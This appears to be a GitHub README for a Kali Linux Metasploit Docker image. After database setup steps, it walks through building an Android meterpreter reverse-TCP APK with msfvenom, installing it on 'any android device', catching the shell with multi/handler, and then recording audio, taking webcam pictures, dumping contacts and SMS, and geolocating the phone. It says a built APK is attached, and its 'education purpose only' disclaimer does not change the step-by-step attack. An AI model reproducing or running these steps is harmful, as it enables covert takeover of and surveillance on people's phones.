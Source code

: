## kalilinux-metaspolite ;-

![](https://www.kali.org/wp-content/uploads/2015/05/kali-linux-docker-images-798x284.png)
###### The Metasploit Project is a computer security project that provides information about security vulnerabilities and aids in penetration testing.

##### Original link [Docker link](https://hub.docker.com/r/vinothssv/kalilinuxmetaspolite/)

###### This container which has pre-installed PostgreSQL with metaspolite to start metaspolite please follow the below steps,
##### Lets started

> Step:1:- check postgreSQL status

    root@66c2d91b9c26:~# service postgresql status
    9.6/main (port 5432): online
    root@66c2d91b9c26:~#

###### If the container in stopped stage make it as start and running. once the postgresql is started then initialise Metasploit PostgreSQL Database

    #msfdb init

###### Once started, type below command.

    #msfconsole

###### After we logged in to the msf console check whether the database are connected to metaspolite

    msf > db_status
    [*] postgresql connected to msf3
    msf >

###### that's it. metaspolite will now working...
###### For download use below command,

    docker pull vinothssv/kalilinuxmetaspolite:version1.0
 
##### after download above container we need to start and run with some allowed ports. 
###### check the image is downloaded,

    [root@srv ~]# docker images
    REPOSITORY                        TAG                 IMAGE ID            CREATED             SIZE
    kalilinux.p                       latest              4d661b0b07ad        6 days ago          1.417 GB
    
once the image is listed, 

     docker run -it --name kaliports -p 4444:4444 -p 445:445 kalilinux.p /bin/bash
        
after we enter into the container provide the following command to create android file to explose

    root@b7152906b2a6:/# msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.123 LPORT=4444 R > /var/android.apk

After that apk has created we need to make install it to any android device and then get into the msfconsole.
    msfconsole
    
        #once we get into the msfconsole we need to check whether the database is connected or not. by below given command.
        
    msf > db_status
    [*] postgresql selected, no connection
    msf >

Once everything perfect we can start hacking..
    
    msf > use multi/handler 
    msf > set PAYLOAD android/meterpreter/reverse_tcp #payload for android
    msf > set LHOST 192.168.1.4   #android ip
    msf > set LPORT 4444 #localhost allowed port.
    msf > exploit

after it get connected with android we can give the following commands to collect the information in android mobile.
    
        ---- OTHER COMMANDS ----
    - record_mic (record audio) 
    - webcam_snap (Take a Picture) 
    - webcam_stream (Stream Camera) 
    - dump_contacts (CALL LOGS!) 
    - dump_sms (SMS LOGS!)
    - geolocate (Track Device)

Here, i have attached android.apk Please do this your own risk.

### This tutorial only for education purpose only.
